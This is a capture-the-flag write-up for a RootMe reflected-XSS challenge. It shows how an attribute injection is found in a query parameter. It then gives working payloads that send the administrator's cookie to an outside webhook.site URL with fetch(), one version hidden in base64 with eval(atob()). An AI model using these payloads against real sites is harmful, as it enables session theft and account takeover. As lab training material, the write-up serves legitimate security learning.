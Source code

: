 ```yaml
---
layout: default
title: RootMe - XSS - Reflected
permalink: /web-client/xss-reflected
---
```


# XSS - Reflected

## Statement
Find a way to steal the administrator’s cookie.
Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.

## Analyze
We have this website (*http://challenge01.root-me.org/web-client/ch26*) about VALHALLA INC.

Quickly we found the page `/?p=about` in **About** section.
![About page, VALHALLA INC.](/assets/img/rootme/xss-reflected-1.png "About page, VALHALLA INC.")


Let's test with `/?p=test` to see the result.
![?p=test page, VALHALLA INC.](/assets/img/rootme/xss-reflected-2.png "?p=test page, VALHALLA INC.")

`test` is displayed as hyperlink inside `<a>` tag, we can start testing XSS payloads.

- First attempt: `?p=<b>test</b>` : The payload is filetered with HTML Entity.
- Second attempt: `?p=' target='alert(1)` : We tinker with `<a>` but it gave nothing.
- Third attempt: `?p=' onmouseover='alert(1)` : After some research, the `onmouseover` attributes appear in global attributes (https://www.w3schools.com/tags/ref_eventattributes.asp), we test it and it work !

!["alert(1) with onmouseover in query"](/assets/img/rootme/xss-reflected-3.png "alert(1) with onmouseover in query")

## Exploitation
So, with `onmouseover` attributes, all we have left to do is to use `fetch()` on a webhook with `document.cookie` in URL query.

**Payload:**<br>
`?p=' onmouseover='fetch("https://webhook.site/6d5ede82-cc64-4a47-935a-c35dd94c368b?"%2Bdocument.cookie)`

This payload doesn't work when reporting to the administrator, this is because the statement says: "*Be careful, this administrator is aware of info security and <ins>he does not click on strange links that he could receive.</ins>*"

The `https://webhook.site/6d5ede82-cc64-4a47-935a-c35dd94c368b?"%2Bdocument.cookie` is too suspicious, we need to hide it to bypass filters.

To do that I use an `eval(atob())` with our `fetch(xxx)` encoded in Base64

**New payload:**<br>
`?p=' onmouseover='eval(atob("ZmV0Y2goImh0dHBzOi8vd2ViaG9vay5zaXRlLzZkNWVkZTgyLWNjNjQtNGE0Ny05MzVhLWMzNWRkOTRjMzY4Yj8iK2RvY3VtZW50LmNvb2tpZSk="))`

After waiting some minutes we obtain the flag:
`https://webhook.site/6d5ede82-cc64-4a47-935a-c35dd94c368b?flag=xxxxxxxxxxxxxxxxx`